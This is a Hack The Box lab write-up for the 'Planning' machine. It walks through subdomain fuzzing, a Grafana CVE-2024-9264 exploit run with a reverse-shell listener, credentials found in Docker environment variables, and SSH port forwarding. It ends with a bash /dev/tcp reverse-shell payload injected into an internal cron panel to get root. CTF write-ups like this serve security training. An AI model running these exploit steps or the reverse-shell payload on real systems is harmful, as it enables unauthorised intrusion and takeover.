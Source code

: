 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

![Planning Banner](screenshots/planning-banner.png)

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Output](screenshots/nmap-scan.png)
---

### 2️⃣ Virtual Host Setup

Modified `/etc/hosts`:

```
10.10.11.68 planning.htb
```

![Host Added](screenshots/added-host.png)
![Planning Page](screenshots/planning.png)
---

### 3️⃣ Subdomain Discovery

Used FFUF to find subdomains:

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

![FFUF Scan](screenshots/fuff-scan.png)
![Host Added Again](screenshots/added-host1.png)

Discovered: `grafana.planning.htb`

---

### 4️⃣ Grafana Login

Visited: `http://grafana.planning.htb`

Used credentials:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

![Login Page](screenshots/grafana-login.png)
![Version Info](screenshots/grafana-version.png)

---

### 5️⃣ Exploiting Grafana (CVE-2024-9264)

Started a reverse shell listener:

```bash
nc -lvnp 9001
```

![Listener](screenshots/listener.png)

Ran exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Script](screenshots/python-exploit.png)
![Reverse Shell Access](screenshots/exploited.png)

✅ Reverse shell obtained!

---

### 6️⃣ Docker Escape

Checked environment variables:

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Creds](screenshots/found-username-password.png)

SSH login:

```bash
ssh enzo@10.10.11.68
```

![SSH Access](screenshots/ssh.png)

Captured user flag:

```bash
cat /home/enzo/user.txt
```

![User Flag](screenshots/userflag.png)

---

### 7️⃣ Privilege Escalation

Ran linPEAS and discovered crontab entry:

```bash
cat /opt/crontabs/crontab.db
```

Found:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

![LinPEAS Output](screenshots/linpeas-crontab.png)
![Root Credentials](screenshots/found-credentials.png)

---

### 8️⃣ Internal Service & Reverse Shell to Root

Discovered local port 8000:

![Local Port](screenshots/port-locally.png)

Port forwarding with SSH:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](screenshots/port-forwarding.png)

Visited: `http://localhost:8000`

![Visited 8000](screenshots/visited8000.png)

Injected reverse shell payload:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Injection](screenshots/injected.png)

Set up listener:

```bash
nc -lvnp 8888
```

![Listener Ready](screenshots/setup-listener.png)

Got root shell! 🎉

![Root Shell](screenshots/gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](screenshots/user-flag.png)
![Root Flag](screenshots/root-flag.png)

---

## ✅ Conclusion

The Planning machine demonstrated a solid exploitation path:

* Default credentials in Grafana
* Environment variable leaks in Docker
* SSH access and internal port forwarding
* Reverse shell injection via internal admin panel

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit PoC by z3k0sec](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks Book](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

